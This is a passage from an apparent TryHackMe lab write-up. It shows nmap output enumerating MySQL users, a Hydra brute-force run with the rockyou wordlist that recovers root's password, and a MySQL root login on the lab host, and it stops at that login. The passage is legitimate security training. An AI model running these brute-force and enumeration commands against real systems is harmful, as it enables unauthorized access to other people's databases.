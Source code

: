 ```
3306/tcp open  nagios-nsca Nagios NSCA
| mysql-enum: 
|   Valid usernames: 
|     root:<empty> - Valid credentials
|     netadmin:<empty> - Valid credentials
|     guest:<empty> - Valid credentials
|     user:<empty> - Valid credentials
|     web:<empty> - Valid credentials
|     sysadmin:<empty> - Valid credentials
|     administrator:<empty> - Valid credentials
|     webadmin:<empty> - Valid credentials
|     admin:<empty> - Valid credentials
|     test:<empty> - Valid credentials
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.28-0ubuntu0.20.04.3
|   Thread ID: 26
|   Capabilities flags: 65535
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, SupportsTransactions, LongPassword, Support41Auth, FoundRows, LongColumnFlag, DontAllowDatabaseTableColumn, IgnoreSigpipes, Speaks41ProtocolNew, ODBCClient, InteractiveClient, SwitchToSSLAfterHandshake, SupportsLoadDataLocal, SupportsCompression, ConnectWithDatabase, Speaks41ProtocolOld, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: P,n'%\x04\x1FS\x0C@11fy\x1FAN\x059t
|_  Auth Plugin Name: caching_sha2_password
|_mysql-vuln-cve2012-2122: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.76 seconds
```
I attempted a bruteforce to mysql with the usernames that I found from the nmap scripting engine. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ hydra -L users.txt -P ~/resources/wordlists/rockyou.txt 10.10.6.223 mysql
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-03 19:12:37
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 143443980 login tries (l:10/p:14344398), ~35860995 tries per task
[DATA] attacking mysql://10.10.6.223:3306/
[3306][mysql] host: 10.10.6.223   login: root   password: rockyou
```
It looked like I got credentials for a user with mysql.
## Initial Access
I was able to authenticate with the credentials provided to me from hydra. 
```
ajread@aj-ubuntu:~$ mysql -h [REMOTE IP] -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 320
Server version: 8.0.28-0ubuntu0.20.04.3 (Ubuntu)

Copyright (c) 2000, 2022, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.
```
